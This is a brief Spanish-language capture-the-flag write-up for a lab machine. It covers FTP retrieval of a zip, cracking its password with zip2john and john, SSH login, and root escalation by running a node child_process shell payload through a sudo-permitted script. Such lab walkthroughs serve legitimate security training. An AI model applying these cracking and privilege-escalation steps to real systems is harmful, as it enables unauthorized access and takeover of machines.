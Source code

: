 nmap: 21,22

![image](https://github.com/user-attachments/assets/f278b033-4ada-4db4-bd22-f1b64aea118c)

vamos al ftp y nos pasamos el zip

![image](https://github.com/user-attachments/assets/e7fd669e-f52c-4af9-be43-554efac6afdb)

y nos pide contraseña

![image](https://github.com/user-attachments/assets/6b7ccde2-388d-42a7-9702-95da8b0c5a48)

ahora sacamos la contraseña con el comando

     zip2john secretitopicaron.zip

después 

     john has_zip


y da

![image](https://github.com/user-attachments/assets/f6956b23-3ba5-4d7d-9cb8-14159b066c1f)

ahora sacamos el zip

![image](https://github.com/user-attachments/assets/8dc71c63-1151-4a0a-94bb-e6827c905bbe)

y obtenemos la contraseña y usuario, entramos por el ssh, ahora entramos

![image](https://github.com/user-attachments/assets/26df6c64-9617-4635-acc5-895752ec119a)

al hacer sudo -l podemos ver que hay un archivo script.js pero no tiene nada dentro, pero igual esta el node

![[dockerlabs/facil/nodeclimb/script.png]]

buscamos el node: https://gtfobins.github.io/gtfobins/node/
dentro del script.js que esta vacío colocamos este comando

     require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]}) 

y ejecutamos el script

     sudo /usr/bin/node /home/mario/script.js

![[dockerlabs/facil/nodeclimb/root.png]]

y somos root!
